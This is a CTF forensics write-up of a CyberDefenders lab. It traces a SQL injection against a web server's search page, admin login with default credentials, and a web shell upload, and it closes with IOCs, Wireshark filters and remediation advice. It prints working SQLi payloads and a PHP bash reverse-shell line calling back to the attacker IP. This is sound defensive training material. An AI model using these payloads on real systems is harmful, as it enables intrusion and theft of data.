# Web Investigation Lab — CTF Writeup

* **Platform:** CyberDefenders  
* **Challenge:** Web Investigation Lab  
* **Category:** Network Forensics  
* **Difficulty:** Easy  
* **Analyst:** Mahmoud Hussien
* **Tool:** Wireshark, CyberChef
* **Target:** BookWorld Web Server

---

## Scenario Overview

An automated alert was triggered within the BookWorld SOC indicating an unusual spike in database queries and server resource usage. Network traffic analysis confirmed a targeted SQL Injection (SQLi) attack originating from China. The attacker escalated from database enumeration to admin panel access using default credentials, and ultimately uploaded a malicious PHP web shell — achieving persistent Remote Code Execution (RCE) on the underlying Ubuntu server.

---

## Attack Timeline

| Time (GMT) | Phase | Description |
|---|---|---|
| 12:03:51 | Initial Recon | Manual SQLi logic validation on `/search.php` |
| 12:08:38 | Automated Exploitation | SQLmap deployed to enumerate database schemas |
| 12:09:39 | Data Exfiltration | Customer PII extracted from `bookworld_db.customers` |
| 12:20:23 | Admin Access | Login to `/admin/` with default credentials |
| 12:24:17 | Persistence | Malicious web shell `NVri2vhp.php` uploaded |

---

## Question 1 — What is the attacker's IP address?

### Investigation

Applied Wireshark display filter to identify the source IP generating anomalous traffic patterns — high-volume requests to `/search.php` with SQL syntax in the query parameters:

```
http.request.method == "GET" && http.request.uri contains "search.php"
```

The source IP behind all malicious requests was consistent throughout the attack chain.

### Answer

```
111.224.250.131
```


---

## Question 2 — What is the origin city of the attacker?

### Investigation

Submitted the attacker IP `111.224.250.131` to a geolocation lookup service (VirusTotal / ipinfo.io). The IP resolves to a Chinese ISP with the registered city location:

### Answer

```
Shijiazhuang
```


---

## Question 3 — What is the vulnerable PHP script name?

### Investigation

Filtering HTTP GET requests from the attacker IP reveals that all SQL injection attempts were directed at a single PHP script handling the site's search functionality:

```
ip.src == 111.224.250.131 && http.request.method == "GET"
```

The `uri` field in every malicious request targeted the same endpoint.

### Answer

```
search.php
```


---

## Question 4 — What is the complete URI of the first SQLi attempt?

### Investigation

Sorted HTTP traffic from the attacker IP chronologically and identified the earliest GET request to `/search.php`. The URI contained URL-encoded SQL syntax — decoded using CyberChef (URL Decode):

**Encoded:**
```
/search.php?search=book%20and%201%3D1%3B%20--%20-
```


**Decoded:**
```
/search.php?search=book and 1=1; -- -
```


This is a classic **Boolean-based SQLi** test — the `1=1` condition always evaluates to true, used to confirm the parameter is injectable before proceeding with more complex payloads.

### Answer

```
/search.php?search=book and 1=1; -- -
```


---

## Question 5 — What is the complete URI used to read the web server's available databases?

### Investigation

Continuing through the HTTP request timeline from the attacker IP, the next significant request contained a **UNION-based SQL injection** payload designed to extract schema information from the MySQL `INFORMATION_SCHEMA` system database.

**URL Decoded payload:**

```sql
/search.php?search=book' UNION ALL SELECT NULL,
CONCAT(0x7178766271, JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b, schema_name)),
0x7176706a71) FROM INFORMATION_SCHEMA.SCHEMATA-- -
```

**Technical Breakdown:**

| Component | Purpose |
|---|---|
| `UNION ALL SELECT` | Appends attacker's query to legitimate result set |
| `INFORMATION_SCHEMA.SCHEMATA` | System table listing all available databases |
| `0x7178766271` | Hex-encoded boundary markers for output parsing |
| `JSON_ARRAYAGG` | Aggregates all schema names into a single JSON array |
| `-- -` | Comments out the rest of the original SQL query |

### Answer

```
/search.php?search=book' UNION ALL SELECT NULL, CONCAT(0x7178766271, JSON_ARRAYAGG(CONCAT_WS(0x7a76676a636b, schema_name)), 0x7176706a71) FROM INFORMATION_SCHEMA.SCHEMATA-- -
```



---

## Question 6 — What is the table name containing the website users data?

### Investigation

After enumerating available databases, the attacker used SQLmap to automate further extraction — targeting table structures within the `bookworld_db` database. The traffic logs captured the automated tool's requests enumerating table names, leading to the identification of the sensitive data table.

### Answer

```
customers
```


---

## Question 7 — What is the name of the directory discovered by the attacker?

### Investigation

Following the data exfiltration phase, the attacker shifted to directory discovery — likely using a wordlist-based directory brute-force tool. Filtering for POST requests initiated by the attacker:

```
ip.src == 111.224.250.131 && http.request.method == POST
```

A hidden administrative panel was discovered that is not linked from the public-facing site:

### Answer

```
/admin/
```


---

## Question 8 — What are the credentials used by the attacker for logging in?

### Investigation

Filtered for HTTP POST requests to the admin login page:

```
ip.src == 111.224.250.131 && http.request.method == "POST"
  && http.request.uri contains "/admin/"
```

Following the TCP stream reveals the form data submitted in the POST body — the attacker used default credentials that were never changed by the BookWorld team:

```
username=admin&password=admin123!
```

### Answer

```
admin:admin123!
```


---

## Question 9 — What is the name of the malicious script uploaded by the attacker?

### Investigation

After authenticating to `/admin/index.php`, the attacker abused an unrestricted file upload functionality. Filtering for multipart POST requests:

```
ip.src == 111.224.250.131 && http.request.method == "POST"
  && http.request.uri == "/admin/index.php"
```

Following the HTTP stream revealed a `multipart/form-data` payload with an uploaded PHP file. The web server returned HTTP 200 OK with the confirmation message:

```
The file NVri2vhp.php has been uploaded.
```

**Web Shell Payload Analysis:**

```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/111.224.250.131/443 0>&1'");?>
```

| Component | Purpose |
|---|---|
| `exec()` | PHP function spawning a system-level process |
| `/bin/bash -c` | Invokes the Bash interpreter |
| `/dev/tcp/111.224.250.131/443` | Opens raw TCP socket back to attacker |
| `0>&1` | Redirects stdin/stdout — creates interactive shell |
| Port `443` | HTTPS port used to evade egress firewall rules |

The obfuscated filename (`NVri2vhp.php`) was chosen to avoid detection during casual directory audits.

### Answer

```
NVri2vhp.php
```


---

## Full Attack Chain Reconstruction

```
[1] Initial Recon (12:03:51 GMT)
    └─ Manual Boolean SQLi test on /search.php
    └─ Payload: book and 1=1; -- -
    └─ Confirmed: parameter is injectable

[2] Automated Exploitation (12:08:38 GMT)
    └─ SQLmap deployed from 111.224.250.131
    └─ Enumerated: INFORMATION_SCHEMA.SCHEMATA
    └─ Discovered: bookworld_db database

[3] Data Exfiltration (12:09:39 GMT)
    └─ Extracted: bookworld_db.customers table
    └─ Stolen: Customer PII / sensitive data

[4] Admin Panel Discovery (12:20:23 GMT)
    └─ Directory brute-force → /admin/
    └─ Logged in: admin:admin123! (default credentials)
    └─ Session cookie: PHPSESSID=ae7mvmmf2krhir4kngnmio680a

[5] Web Shell Upload (12:24:17 GMT)
    └─ Uploaded: NVri2vhp.php via /admin/index.php
    └─ Payload: bash reverse shell → 111.224.250.131:443
    └─ Server response: HTTP 200 OK — file accepted
    └─ Result: Full RCE on Ubuntu/Apache server
```

---

## Indicators of Compromise (IOCs)

| Type | Value | Description |
|---|---|---|
| IP | `111.224.250.131` | Attacker IP (Shijiazhuang, China) |
| IP | `73.124.22.98` | Victim web server (Apache/2.4.52, Ubuntu) |
| Session | `ae7mvmmf2krhir4kngnmio680a` | Compromised admin PHP session ID |
| File | `NVri2vhp.php` | PHP reverse shell web shell |
| Port | `443/TCP` | Reverse shell callback port |
| URI | `/search.php` | Vulnerable SQL injection endpoint |
| URI | `/admin/` | Hidden admin panel |
| Credentials | `admin:admin123!` | Compromised default credentials |
| Table | `customers` | Exfiltrated data table |

---

## Key Wireshark Filters Reference

```
-- All attacker HTTP traffic
ip.src == 111.224.250.131 && http

-- SQLi attempts on search.php
ip.src == 111.224.250.131 && http.request.uri contains "search.php"

-- POST requests (login + file upload)
ip.src == 111.224.250.131 && http.request.method == "POST"

-- Successful responses only
ip.src == 111.224.250.131 && http.response.code == 200

-- File upload detection
http.request.method == "POST" && http contains "multipart/form-data"
  && http contains ".php"
```

---

## MITRE ATT&CK Mapping

| Phase | Technique ID | Technique Name |
|---|---|---|
| Initial Access | T1190 | Exploit Public-Facing Application |
| Discovery | T1595.003 | Active Scanning: Wordlist Scanning |
| Credential Access | T1078.001 | Valid Accounts: Default Accounts |
| Execution | T1059.004 | Unix Shell (bash reverse shell) |
| Persistence | T1505.003 | Web Shell |
| Exfiltration | T1041 | Exfiltration Over C2 Channel |
| Command & Control | T1071.001 | Web Protocols (reverse shell over port 443) |

---

## Recommendations

1. **Parameterized queries / Prepared Statements** — Never concatenate user input into SQL strings directly. Use PDO or MySQLi with bound parameters to eliminate SQLi entirely.
2. **Change default credentials immediately** — `admin:admin123!` is a trivially guessable credential. Enforce strong password policies and scan for default credentials regularly.
3. **Restrict file upload types server-side** — Validate file extensions and MIME types on the server, never trust client-supplied `Content-Type`. Block `.php`, `.phtml`, `.phar` uploads entirely.
4. **Store uploads outside web root** — Files uploaded by users should never be stored in a web-accessible directory where they can be directly executed by the web server.
5. **Web Application Firewall (WAF)** — Deploy a WAF with SQLi signatures to detect and block automated tools like SQLmap before they complete schema enumeration.
6. **Geo-IP blocking** — If no legitimate traffic originates from China, block the IP range at the perimeter firewall level.
7. **Remove or protect `/admin/`** — Restrict admin panel access by IP whitelist or VPN only. Never expose admin interfaces to the public internet.

---

*Writeup produced as part of SOC Analyst training — CyberDefenders: Web Investigation Lab*